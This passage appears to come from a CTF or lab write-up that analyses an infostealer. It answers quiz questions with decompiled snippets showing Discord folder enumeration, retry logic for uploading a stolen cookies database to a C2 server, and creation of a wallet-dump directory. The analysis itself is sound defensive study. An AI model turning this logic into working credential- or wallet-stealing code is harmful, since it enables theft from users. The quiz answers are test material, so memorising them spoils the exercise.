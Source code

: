**0x1000**

## 9. What is the wildcard used to find Discord version folders?
```bash
wcscpy((wchar_t *)v234, (const wchar_t *)v233);
sub_140005225((wchar_t *)v234, (wchar_t *)L"app-*");
```
`sub_140005225` appends the wildcard `app-*` to the path stored in `v233` (which points to the Discord directory, typically `%APPDATA%\Discord`), resulting in a pattern like `%APPDATA%\Discord\app-*`. This wildcard matches folders such as `app-1.0.9001, app-1.0.9002`, etc., which represent different Discord version installations. The function then uses `FindFirstFileW` to enumerate folders matching this pattern in the Discord directory

**app-\***

## 10. What is the maximum number of retries for uploading the cookies copy to the C2?
```bash
v13 = 3;
sub_14000FB40(v33, 0x104ui64, "%s/%s/Cookies_copy.db", v18, v34.cFileName);
while ( (unsigned int)sub_1400019C5() )
{
    LastError = GetLastError();
    if ( !--v13 )
    break;
    if ( LastError == 32 || LastError == 5 )
    sub_14000659B();
}
```

**3**

## 11. How many important files per profile does the function attempt to find and send?

**6**

## 12. How many characters long is the random ID generated for the temporary wallet dump directory?
```bash
  strcpy((char *)v35, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789");
  v1 = 0i64;
  v2 = time64(0i64);
  v3 = GetCurrentProcessId() + v2;
  srand(v3);
  do
    v27[v1++] = *((_BYTE *)v35 + rand() % 0x3Eui64);
  while ( v1 != 12 );
```
